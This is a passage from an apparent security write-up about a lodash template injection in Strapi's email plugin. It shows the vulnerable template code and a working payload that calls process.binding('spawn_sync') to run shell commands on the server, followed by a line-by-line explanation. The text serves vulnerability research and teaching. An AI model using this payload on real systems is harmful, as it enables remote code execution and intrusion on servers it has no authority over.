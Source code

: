 ```js
      `Following attributes are missing from your email template : ${missingAttributes.join(', ')}`
    );
  }

  const templatedAttributes = attributes.reduce(
    (compiled, attribute) =>
      emailTemplate[attribute]
        ? Object.assign(compiled, { [attribute]: _.template(emailTemplate[attribute])(data) })
        : compiled,
    {}
  );

  return strapi.plugin('email').provider.send({ ...emailOptions, ...templatedAttributes });
};

module.exports = () => ({
  getProviderSettings,
  send,
  sendTemplatedEmail,
});
```

I was unfamiliar with using or exploiting the `lodash` template engine, but reading the [documentation](https://lodash.com/docs/4.17.15#template) I realised that the template engine can **evaluate JavaScript code on the server**! I also [found this tweet](https://twitter.com/rootxharsh/status/1268181937127997446?lang=en) that contains the following payload that can exploit `lodash` SSTI vulnerabilities to execute arbitrary commands.

```text
<%= ${x=Object}${w=a=new x}${w.type="pipe"}${w.readable=1}${w.writable=1}${a.file="/bin/sh"}${a.args=["/bin/sh","-c","id"]}${a.stdio=[w,w]}${process.binding("spawn_sync").spawn(a).output} %>
```

Now that payload looks a little bit confusing, so lets break it down to understand how it works:

- The payload creates two empty objects named `w` and `x` (`${x=Object}${w=a=new x}`).

- The `w` is then assigned the `readable` and `writable` attributes that both have a value of `1` and the attribute `type` to `pipe` to pipe the output of the command that would be executed (`${w.type="pipe"}${w.readable=1}${w.writable=1}`).

- Then `a` is assigned the following attributes and used as the input parameter for `process.binding("spawn_sync").spawn` that starts a new process and waits until completion.

```js
{
    file: "/bin/sh",
    args: ["/bin/sh", "-c", "id"],
    stdio: [
        {"type": "pipe", "readable": 1, "writable": 1},
        {"type": "pipe", "readable": 1, "writable": 1}
    ]
}
```
